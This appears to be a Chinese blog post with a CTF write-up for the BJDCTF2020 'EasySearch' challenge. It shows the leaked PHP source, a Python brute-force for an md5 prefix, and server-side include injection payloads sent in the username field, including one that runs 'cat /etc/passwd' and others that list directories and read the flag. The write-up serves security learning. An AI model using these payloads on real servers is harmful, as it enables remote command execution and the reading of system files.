 ```yaml
---

title: 日常练习26——ssi注入漏洞

date: 2021-04-29 21:58:38

tags: 练习

categories: test75

---
```

这道题是一道ssi注入题，和ssti注入就差了一个字母，这说明它们两个之间还是有一定联系的。   

# [BJDCTF2020]EasySearch  

打开题目看到一个登录界面。  

[![](https://img.imgdb.cn/item/608fa21cd1a9ae528f702a6b.png)](https://img.imgdb.cn/item/608fa21cd1a9ae528f702a6b.png)  

一般这种登录界面要么是xml外部实体注入，要么是sql注入，先尝试sql注入发现没有用，那么就抓包看一下是不是xml。  

[![](https://img.imgdb.cn/item/608fa2e3d1a9ae528f7a1daa.png)](https://img.imgdb.cn/item/608fa2e3d1a9ae528f7a1daa.png)  

发现也不是xml注入的格式，看了别人的wp发现原来要扫一下源码（这个细节总是会忘...），源码为index.php.swp文件。具体如下：  

	<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
	?>  

可以看出这里需要password经过md5加密后的前六位是6d0bc1  

	$admin = '6d0bc1';
    if ( $admin == substr(md5($_POST['password']),0,6))  

这个可以用脚本破解出来password。  

	import hashlib

	for i in range(1, 100000000):
    res = hashlib.md5(str(i).encode('utf-8')).hexdigest()

    if res[:6] == '6d0bc1':
        print(i, res)

得到密码为：2020666或者2305004，我们使用第一个密码在登陆抓包看一下：  

[![](https://img.imgdb.cn/item/608fa5d2d1a9ae528f9b0e4e.png)](https://img.imgdb.cn/item/608fa5d2d1a9ae528f9b0e4e.png)   

确实登陆上去了，并且还给了我们一个url地址：  

	public/fee23b26535c365d150e4ba8aa4559a7ff651ca4.shtml  

我们进入这个界面看一下：  

[![](https://img.imgdb.cn/item/608fa62fd1a9ae528f9ee32f.png)](https://img.imgdb.cn/item/608fa62fd1a9ae528f9ee32f.png)  

发现回显的就是我们输入的username的值，这里就要考虑是不是ssti注入，我们进行测试，输入username为{ {7*7} }，然后再使用它新给我们  
的url地址来访问：  

[![](https://img.imgdb.cn/item/608fa6a7d1a9ae528fa3f170.png)](https://img.imgdb.cn/item/608fa6a7d1a9ae528fa3f170.png)  

可以看到，虽然回显，但并没和ssti一样回显49或者其他，说明这道题还不是ssti注入，这里就要学习新的知识点ssi注入了。  

## ssi注入  

	SSI 注入全称Server-Side Includes Injection，即服务端包含注入。SSI 是类似于 CGI，用于动态页面的指令（这也就说明了为什么每次我们登录后的shtml网址都会发生变化）。SSI 注入允许远程在 Web 应用中注入脚本来执行代码。  

	SSI是嵌入HTML页面中的指令，在页面被提供时由服务器进行运算，以对现有HTML页面增加动态生成的内容，而无须通过CGI程序提供其整个页面，或者使用其他动态技术。

	从技术角度上来说，SSI就是在HTML文件中，可以通过注释行调用的命令或指针，即允许通过在HTML页面注入脚本或远程执行任意代码。  

以上就是ssi注入的介绍。当符合下列条件时，攻击者可以在 Web 服务器上运行任意命令：

    Web 服务器已支持SSI（服务器端包含）

    Web 应用程序未对对相关SSI关键字做过滤

    Web 应用程序在返回响应的HTML页面时，嵌入用户输入

这个嵌入用户输入就和ssti一样了，都是返回了我们输入的内容。简单来说就是我们可以通过输入ssi的语法来执行命令，然后执行的结果会被返回到响应的shtml界面上，也就是我们每次登录后返回给我们的新的shtml文件url地址。  

ssi注入语法有很多，这里介绍关于命令执行的语法：  

	<!–#exec cmd="文件名称"–>

	<!--#exec cmd="cat /etc/passwd"-->

	<!–#exec cgi="文件名称"–>

	<!--#exec cgi="/cgi-bin/access_log.cgi"–>  

这道题没有过滤什么字符，我们可以直接使用，如下所示：  

	username=<!--#exec cmd="ls ../"-->&password=2020666  

这里要查看上级目录才能看到flag文件的名字：  

[![](https://img.imgdb.cn/item/608faa90d1a9ae528fd06292.png)](https://img.imgdb.cn/item/608faa90d1a9ae528fd06292.png)  

返回得到了flag文件名字，接下来就是读取该文件：  

	username=<!--#exec cmd="cat ../flag_990c66bf85a09c664f0b6741840499b2"-->&password=2020666  

[![](https://img.imgdb.cn/item/608fab1ad1a9ae528fd57c07.png)](https://img.imgdb.cn/item/608fab1ad1a9ae528fd57c07.png)  

得到flag。  

总结一下，关于ssi注入其实和之前学过的ssti和xxs都有一些相同之处，都是会在网页上返回我们输入的相关字符，而ssi注入是通过动态页面来返回的，也就是shtml网页，我们输入的ssi语句会在服务器被执行然后会被返回到shmtl上一些信息，如果前端对我们输入的ssi敏感字符过滤不严，并且在返回的web页面上有用户输入的的字符，那么就会造成ssi漏洞。  

遇到这类题，要先看一下是否存在动态页面，接着看动态页面是否返回我们输入的字符，接着就是测试字符的过滤，最后使用ssi语法来注入。  

# 小结  

ssi注入是一个新的注入知识，这道题可以说是入门的漏洞讲解，以后会遇到更难的，要对这类注入先做一个简单的认识，打好基础。  

下面是相关学习博客：  

[ssi注入漏洞](https://blog.csdn.net/qq_40657585/article/details/84260844)